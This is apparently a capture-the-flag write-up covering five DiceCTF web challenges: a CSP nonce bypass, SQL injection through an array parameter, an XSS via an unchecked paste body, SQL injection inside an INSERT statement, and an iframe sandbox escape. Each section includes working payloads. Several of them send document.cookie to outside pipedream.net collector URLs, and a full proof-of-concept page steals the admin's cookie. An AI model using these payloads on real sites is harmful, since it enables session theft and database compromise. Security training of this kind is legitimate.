 ## (Web) Babier CSP [107 pts]

The Babier CSP challenge is a simple CSP Bypass challenge.

```html
<script nonce=LRGWAXOY98Es0zz0QOVmag==>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>
```
If you check the source code, you can see that the nonce value of the script tag is set as above. I thought that the admin bot was also applying the nonce value as above.

```html
<script nonce=LRGWAXOY98Es0zz0QOVmag==>alert(1)</script>
<script nonce=LRGWAXOY98Es0zz0QOVmag==>location.href="https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net"%2bdocument.cookie</script>
```
The payload used is as above.

> dice{web_1s_a_stat3_0f_grac3_857720}

---
## (Web) Missing Flavortext [111 pts]

The Missing Flavortext challenge is a SQL Injection challenge that bypasses single quotas by using the features of express.js.
```javascript
if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
  return res.redirect('/');
}
```
In the code above, single quota is filtered using the includes function. However, this can be bypassed by passing it as an array because it only verifies strings.
```txt
username=admin&password[]=1&password[]=' or '1'='1
The payload used is as above.
```
> dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}

---
## (Web) Web Utils [121 pts]

The Web Utils challenge is a challenge that triggers XSS using a vulnerability when receiving the req.body value.
```html
// view.html

<head>
  <script async>
    (async () => {
      const id = window.location.pathname.split('/')[2];
      if (! id) window.location = window.origin;
      const res = await fetch(`${window.origin}/api/data/${id}`);
      const { data, type } = await res.json();
      if (! data || ! type ) window.location = window.origin;
      if (type === 'link') return window.location = data;
      if (document.readyState !== "complete")
        await new Promise((r) => { window.addEventListener('load', r); });
      document.title = 'Paste';
      document.querySelector('div').textContent = data;
    })()
  </script>
</head>
```
It is view.html code, and if the type is link in the middle, you can see window.location as data. And if data contains a payload such as javascript:alert(1), you can trigger xss.

```javascript
// api.js
(skip)

module.exports = async (fastify) => {
  fastify.post('createLink', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      const regex = new RegExp('^https?://');
      if (! regex.test(req.body.data))
        return rep
        
(skip)
```
However, if you look at the link creation logic, the value of req.body.data is verified with a regular expression. So, you can’t put xss payload in the link creation logic.
```javascript
// api.js
(skip)

fastify.post('createPaste', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      database.addData({ type: 'paste', ...req.body, uid });
      rep
        .code(200)

(skip)
```
However, if you look at the logic that creates the Pate, there is no verification for req.body, which causes a vulnerability here. Using this, you can give type as link and data as xss payload.
```tzt
{"data":"javascript:alert(1)","type":"link"}
{"data":"javascript:location.href='https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/'%2bdocument.cookie","type":"link"}
```
The payload used is as above.

> dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}

---
## (Web) Build a Panel [130 pts]

The Build a Panel challenge is the challenge of reading flags using SQL Injection in the insert statement.
```javascript
app.get('/admin/debug/add_widget', async (req, res) => {
    const cookies = req.cookies;
    const queryParams = req.query;

    if(cookies['token'] && cookies['token'] == secret_token){
        query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('${queryParams['panelid']}', '${queryParams['widgetname']}', '${queryParams['widgetdata']}');`;
        db.run(query, (err) => {
            if(err){
                console.log(err);
                res.send('something went wrong');
            }else{
                res.send('success!');
            }
        });
    }else{
        res.redirect('/');
    }
});
```
This is the logic of add_widget running on admin bot. When looking at the query, the input value is entered without any verification, so SQL Injection can be performed.

If we put our panelid in panelid and a query that reads flag in widgetname, a widget is created on our server, and the widget name contains FLAG. (panelid is stored in a cookie.
```txt
https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=pocas&widgetname=adfdaf&widgetdata=a'), ('pocas', (select flag from flag), '{"type":"pocas"}')--
```
The payload used is as above.

> dice{ch41n_ChAIn_aNd_m0Re_cHaIn}

---
## (Web) Web IDE [196 pts]

The Web IDE challenge is a challenge that bypasses iframe sandbox and triggers XSS.
- Scenario
  - We are using allow-scripts as an option for iframe, and the value we input is executed by the eval function in sandbox.html.
  - The path to the administrator’s cookie is /ide, so it is not easy to read the cookie. Because xss payload runs in /sandbox.html.
  - So, first you need to create a separate site and bypass the iframe sandbox.
  - If you bypass the iframe sandbox, you are not limited by sop, and you can freely execute xss payloads.
  - However, since xss payload is executed in /sandbox.html, it cannot read the admin cookie.
  - So, create an object using window.open("/ide"), and execute xss payload on the object to steal the cookie.
```html
<!doctype html>
<html>
  <head>
    <title>xss poc</title>
    <script>
        async function sendMessage() {
            // window open -> make file -> include it
            const cmd="[].constructor.constructor(\"(async () => {const res = await fetch('https://web-ide.dicec.tf/ide/save', {method:'POST', headers: {'Content-Type': 'application/javascript'}, body: 'const myWindow = window.open(\\\"/ide\\\"); (async (myWindow) => { await setTimeout( async() => {await fetch(`https://en20uuq0p0wxmkp.m.pipedream.net/?flag=${myWindow.document.cookie}`)}, 500) })(myWindow)'}); const file_name = await res.text(); const scr = document.createElement('script'); scr.src = `/ide/saves/${file_name}`; document.body.appendChild(scr);})()\")()"
            
            await new Promise((r) => { window.addEventListener(('load'), r); });
            document.querySelector('iframe')
              .contentWindow
              .postMessage(cmd, '*');  // IDE -> sandbox message
        };
    </script>
  </head>
  <body>
      <img src='x' onerror="sendMessage()" />
      <iframe name='hh' src="https://web-ide.dicec.tf/sandbox.html" frameborder="0"></iframe>
  </body>
</html>
```
The payload used is as above.

> dice{c0uldn7_f1nd_4_b4ckr0nym_f0r_1de}

---


